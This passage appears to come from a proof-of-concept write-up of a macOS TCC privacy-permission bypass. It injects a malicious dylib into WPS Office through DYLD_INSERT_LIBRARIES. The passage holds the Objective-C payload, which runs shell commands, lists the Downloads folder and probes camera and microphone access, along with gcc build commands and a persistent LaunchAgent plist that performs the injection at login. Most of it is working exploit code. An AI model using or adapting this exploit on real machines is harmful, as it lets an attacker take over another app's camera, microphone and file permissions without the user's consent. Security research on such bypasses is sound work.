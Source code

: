 ```c
    [task setLaunchPath:@"/bin/sh"];
    [task setArguments:@[@"-c", command]];

    NSPipe *pipe = [NSPipe pipe];
    [task setStandardOutput:pipe];
    [task launch];
    NSFileHandle *fileHandle = [pipe fileHandleForReading];
    NSData *outputData = [fileHandle readDataToEndOfFile];
    NSString *outputString = [[NSString alloc] initWithData:outputData encoding:NSUTF8StringEncoding];
    NSLog(@"用户的Downloads文件夹列表:\n%@", outputString);
    return YES;
}



@end



__attribute__((constructor))
static void wps(int argc, const char **argv) {
    NSLog(@"[+] 恶意dylib成功注入!\n");
    [TCCPermissionChecker hasMicrophoneAccess];
    [TCCPermissionChecker hasCameraAccess];
    [TCCPermissionChecker hasDownloadsAccess];
}
```

Compile it into a dylib file:
```bash
adler@adlers-Mac-mini tcc-exp % nano wps.m
adler@adlers-Mac-mini tcc-exp % gcc -dynamiclib -framework Foundation -framework AVFoundation wps.m -o wps.dylib 
```

Create a file named com.wps.launcher.plist in the ~/Library/LaunchAgent/ directory. It specifies the DYLD_INSERT_LIBRARIES environment variable, the program and parameters, and saves the output file.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
       <key>Label</key>
        <string>com.wps.launcher</string>
        <key>RunAtLoad</key>
        <true/>
        <key>EnvironmentVariables</key>
        <dict>
          <key>DYLD_INSERT_LIBRARIES</key>
          <string>/Users/adler/tcc-exp/wps.dylib</string>
        </dict>
        <key>ProgramArguments</key>
        <array>
          <string>/Applications/wpsoffice.app/Contents/MacOS/wpsoffice</string>
        </array>
        <key>StandardOutPath</key>
        <string>/tmp/wps.log</string>
        <key>StandardErrorPath</key>
        <string>/tmp/wps.log</string>
</dict>
</plist>
```
